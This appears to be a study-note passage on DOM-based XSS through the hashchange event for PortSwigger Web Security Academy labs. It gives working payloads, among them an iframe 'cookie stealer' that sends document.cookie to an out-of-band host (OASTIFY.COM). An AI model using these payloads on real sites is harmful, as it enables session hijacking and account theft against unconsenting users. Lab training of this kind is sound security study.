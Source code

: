 [PortSwigger Lab: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)  

[z3nsh3ll - explaining custom tags for XSS attacks](https://youtu.be/sjs6RS7lURk)  
  
### OnHashChange

> Before trying out different XSS Cookie Stealers, let's take a look at the payload locally:

```
https://0ab2007f0321177c85642b1300f500be.web-security-academy.net/#<img%20src=1%20onerror=alert(1)>
```

![Result xss hashchange](images/xss_hashchange.png)

As we can see, HTML code is injected in DOM (see image below) and executed. `window.location.hash.slice(1)` takes the string after `#` which is the payload being executed.

>Below iframe uses **HASH** `#` character at end of the URL to trigger the **OnHashChange** XSS cookie stealer.  
  
```JavaScript
<iframe src="https://TARGET.net/#" onload="document.location='http://OASTIFY.COM/?cookies='+document.cookie"></iframe>
```  

>Note if the cookie is secure with **HttpOnly** flag set enabled, the cookie cannot be stolen using XSS.  

>PortSwigger Lab payload perform print. **IMPORTANT** to use `onload` event to append the payload to source URL (this.src). Iframe with only src malicious URL won't work because of how iframes are treated by browsers.

```JavaScript
<iframe src="https://TARGET.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```  

>Note: ***Identify*** the vulnerable jquery 1.8.2 version included in the `source code` with the CSS selector action a the **hashchange**.  

